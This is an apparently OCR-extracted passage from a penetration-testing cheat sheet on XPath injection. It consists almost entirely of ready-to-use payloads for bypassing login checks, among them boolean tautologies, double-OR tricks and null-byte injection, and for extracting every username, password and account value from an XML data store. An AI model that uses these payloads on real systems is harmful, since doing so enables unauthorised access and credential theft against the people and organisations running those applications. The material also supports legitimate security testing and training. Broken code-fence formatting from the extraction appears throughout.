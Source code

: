 ```
' or '1'='1
" or "1"="1
' or ''='
" or ""="
string(//user[name/text()='' or '1'='1' and password/text()='' or '1'='1']/account/text())

Select account
Select the account using the username and use one of the previous values in the password field
```
```
### **Abusing null injection**

```
Username: ' or 1]%00
```
```
### **Double OR in Username or in password** (is valid with only 1 vulnerable field)

IMPORTANT: Notice that the **"and" is the first operation made**.

```
Bypass with first match
(This requests are also valid without spaces)
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
string(//user[name/text()='' or true() or '' and password/text()='']/account/text())

Select account
'or string-length(name(.))<10 or' #Select account with length(name)<10
'or contains(name,'adm') or' #Select first account having "adm" in the name
'or contains(.,'adm') or' #Select first account having "adm" in the current value
'or position()=2 or' #Select 2º account
string(//user[name/text()=''or position()=2 or'' and password/text()='']/account/text())

Select account (name known)
admin' or '
admin' or '1'='2
string(//user[name/text()='admin' or '1'='2' and password/text()='']/account/text())
```
```
## String extraction

The output contains strings and the user can manipulate the values to search:

```
/user/username[contains(., '+VALUE+')]
```
```
```
') or 1=1 or (' #Get all names
') or 1=1] | //user/password[('')=(' #Get all names and passwords
') or 2=1] | //user/node()[('')=(' #Get all values
')] | //./node()[('')=(' #Get all values
')] | //node()[('')=(' #Get all values
') or 1=1] | //user/password[('')=(' #Get all names and passwords
')] | //password%00 #All names and passwords (abusing null injection)
')]/../*[3][text()!=(' #All the passwords
')] | //user/*[1] | a[(' #The ID of all users
')] | //user/*[2] | a[(' #The name of all users
')] | //user/*[3] | a[(' #The password of all users
')] | //user/*[4] | a[(' #The account of all users
```
```
```